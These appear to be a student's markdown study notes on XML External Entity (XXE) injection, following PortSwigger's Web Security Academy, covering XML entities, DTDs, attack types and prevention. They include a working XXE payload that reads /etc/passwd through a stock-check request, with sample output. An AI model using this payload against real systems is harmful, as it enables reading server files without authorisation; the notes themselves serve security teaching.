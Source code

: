 #WAPT-notes  

---
### what we'll learn
> Lecture Name : [HINDI] XML External Entity (XXE) Injection | Types of Attacks | Prevention
> 1) About XXE (XML External Entity) Injection
> 2) How do XXE vulnerabilities arise ?
> 3) XML entities
> 4) What are XML custom entities ?
> 5) What are XML external entities ?
> 6) Different types of XXE attacks
> 7) Exploiting XXE to retrieve files - Example 1st XXE attack
> 8) Remediation / how to prevent XXE vulnerabilities

### Overview
- what is XXE
- how XXE vulnerabilities arise
- XML entities
- XML custom entities & external entities
- Overview : how SSRF attacks can be done
- types of XXE attacks

### reference 
- in this module , we're following PortSwigger academy - web security
---

### 1. About XXE (XML External Entity) Injection
- Reference : [What is XXE ? Tutorial & Examples | Web Security Academy](https://portswigger.net/web-security/xxe)
- When the data (of an application) process via XML (markup language) - then a attacker interfere/intercept that "processing" <br>
	& from the web server , attacker could do such things like read the file , attack can be done like SSRF , <br>
	compromise the backend server , so this web security vulnerability aka XXE injection ✔️
- Q : in XXE injection , why we're saying "injection" ✔️<br>
	Ans : cuz payload is inserted/used & due to payload , everything done 
- define : those applications which use XML to transferring data , so mostly XML has those features via which <br>
	we can define/declare custom entity , as a attacker , we can intercept in the middle of process of transferring data <br>
	& we can read the files , types of attacks of XXE like SSRF can be done ✔️

### 2. How do XXE vulnerabilities arise/happen ? `imp ⭐`
- Q : When this XXE attack possible ✔️
    - Ans : cuz if specification (of the document of XML) is not done properly - then XXE attack can be possible <br>
		or if XML's standard partials potentially support those dangerous features <br>
		via which these kind of payloads possible to execute 

### 3. XML entities
- Q : what is XML ? ✔️
    - Ans : XML stands for "extensible markup language"
	- it is a language designed for storing & transporting data & it's Like HTML , <br>
		XML uses a tree-like structure of tags & data & unlike HTML , it doesn't have predefined tags 
- Q : what are XML entities ? ✔️
	- Define : XML entities are a way of representing an item of data within an XML document, instead of using the data itself
	- Eg of XML Entities : `&lt;` & `&gt;` represent the characters `<` & `>`
	- These are metacharacters used to denote XML tags
- Q : What is document type definition (DTD) ? ✔️
	- Ans : The XML DTD contains declarations that can define the structure of an XML document

### 4. What are XML custom entities ? `v imp ⭐`
- XML allows us to define/declare our own custom entities
- Eg : of Format/syntax to define `<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>` <br>
  	means name of the entity u want to give & inside double quotes contain the value of that entity

### 5. What are XML external entities ? 
- XML external entities looks like `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>` <br>
	`ext` - means it's communicating with ur external resource i.e the URL in the syntax
- Eg : `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>`
- Q : how different attacks can be done in XXE ✔️
	- so we can define XML custom entities & external entities <br>
	- Example : <br><img src="../../notes-pics/03-Module/13_lecture/13_lecture-0-M3.jpg" alt="" width="500"/> <br>
		`"file:///etc/passwd"` : here we're able to retrieve the file cuz we define the `file` <br>
		which is stored on the server i.e `etc/passwd` ✔️
	- but SSRF attack can also be done
    	- Q : how SSRF attack can be done ✔️ <br>
			Ans : here `"file:///etc/passwd"` , we'll give the address (on this file path) of malicious server <br>
			or where we can get the user control ✔️

### 6. Different types of XXE attacks 
1) Exploiting XXE to retrieve files
2) Exploiting XXE to perform SSRF attacks
3) Exploiting blind XXE exfiltrate data out-of-band
4) Exploiting blind XXE to retrieve data via error messages
- to know more about them : https://portswigger.net/web-security/xxe

### 7. Exploiting XXE to retrieve files - Example 1st XXE attack
- Reference : [Exploiting XXE to retrieve files | portswigger](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files)
- STEP 1 : For example, suppose a shopping application checks for the stock level of a product <br>
	by submitting the following XML to the server:
    ```xml
    <?xml version="1.0" encoding="UTF-8"?> 
    <stockCheck><productId>381</productId></stockCheck>
    ```
- STEP 2: so we changed the above XMl code into this 
	- The application performs no particular defenses against XXE attacks, so u can exploit the XXE vulnerability <br>
		to retrieve the `/etc/passwd` file by submitting the following XXE payload:
		```xml
		<?xml version="1.0" encoding="UTF-8"?> 
		<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> 
		<stockCheck><productId>&xxe;</productId></stockCheck>
		```
	- to exploit that above code , we took `DOCTYPE foo` then `!ENTITY xxe` entity we declared/define (what ENTITY xxe doing?) <br>
		which is retrieving `"file:///etc/passwd"`
	- & then for "productId" we define `&xxe;` - here we put `&` to tell it's a entity
- STEP 3: the code of STEP 2 
	- This XXE payload defines an external entity `&xxe;` whose value is the contents of the `/etc/passwd` file and <br>
		uses the entity within the `productId` value. This causes the application's response to include the contents of the file:
        ```xml
        Invalid product ID: root:x:0:0:root:/root:/bin/bash 
        daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
        bin:x:2:2:bin:/bin:/usr/sbin/nologin ...
        ```
		- Above xml code means :  
        	- now it'll retrieve the contents of the `/etc/password` & show the contents
        	- so we got `invalid product ID` - cuz in `productId` , we define `&xxe;` <br>
    			& then we got the content of `/etc/password` i.e 
          	```xml
          	root:x:0:0:root:/root:/bin/bash daemon 
          	1:1:daemon:/usr/sbin:/usr/sbin/nologin 
          	bin:x:2:2:bin:/bin:/usr/sbin/nologin
          	```

### 8. Remediation / how to prevent XXE vulnerabilities
- all XXE vulnerabilities arise/come - cuz XML parsing library supports dangerous XML features
- easiest & most effective way to protect/prevent XXE attacks is to disable those features <br>
	(cuz those features not useful + increasing issues) <br>
	such as `XInclude` - disable it but if u can't disable then overwrite the default behavior of it <br>
	(like u can write the code for it - then u'll be safe) ✔️

### Conclusion
- Tip : u can read the documentation for more
- we'll understand more about it - when we do Lab - when we exploit

